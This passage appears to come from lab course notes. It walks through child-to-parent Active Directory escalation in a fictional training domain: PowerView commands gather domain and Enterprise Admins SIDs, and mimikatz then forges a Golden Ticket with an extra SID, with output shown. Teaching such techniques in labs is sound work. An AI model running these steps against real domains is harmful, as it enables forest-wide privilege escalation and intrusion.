 ```Powershell  
PS C:\htb> Get-DomainSID

S-1-5-21-2806153819-209893948-922872689
```
## Obtaining Enterprise Admins Group's SID using Get-DomainGroup
  
```Powershell
PS C:\htb> Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid

distinguishedname                                       objectsid                                    
-----------------                                       ---------                                    
CN=Enterprise Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL S-1-5-21-3842939050-3880317879-2865463114-519
```

#### At this point, we have gathered the following data points:
- ###### The KRBTGT hash for the child domain: 9d765b482771505cbe97411065964d5f
- ###### The SID for the child domain: S-1-5-21-2806153819-209893948-922872689
- ###### The name of a target user in the child domain (does not need to exist to create our Golden Ticket!): We'll choose a fake user: hacker
- ###### The FQDN of the child domain: LOGISTICS.INLANEFREIGHT.LOCAL
- ###### The SID of the Enterprise Admins group of the root domain: S-1-5-21-3842939050-3880317879-2865463114-519
#### Before the attack, we can confirm no access to the file system of the DC in the parent domain.
## Using ls to Confirm No Access
  
```powershell
PS C:\htb> ls \\academy-ea-dc01.inlanefreight.local\c$

ls : Access is denied
At line:1 char:1
+ ls \\academy-ea-dc01.inlanefreight.local\c$
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (\\academy-ea-dc01.inlanefreight.local\c$:String) [Get-ChildItem], UnauthorizedAccessException
    + FullyQualifiedErrorId : ItemExistsUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand
```
## Creating a Golden Ticket with Mimikatz
  
```powershell
PS C:\htb> mimikatz.exe

mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
User      : hacker
Domain    : LOGISTICS.INLANEFREIGHT.LOCAL (LOGISTICS)
SID       : S-1-5-21-2806153819-209893948-922872689
User Id   : 500
Groups Id : *513 512 520 518 519
Extra SIDs: S-1-5-21-3842939050-3880317879-2865463114-519 ;
ServiceKey: 9d765b482771505cbe97411065964d5f - rc4_hmac_nt
Lifetime  : 3/28/2022 7:59:50 PM ; 3/25/2032 7:59:50 PM ; 3/25/2032 7:59:50 PM
-> Ticket : ** Pass The Ticket **

```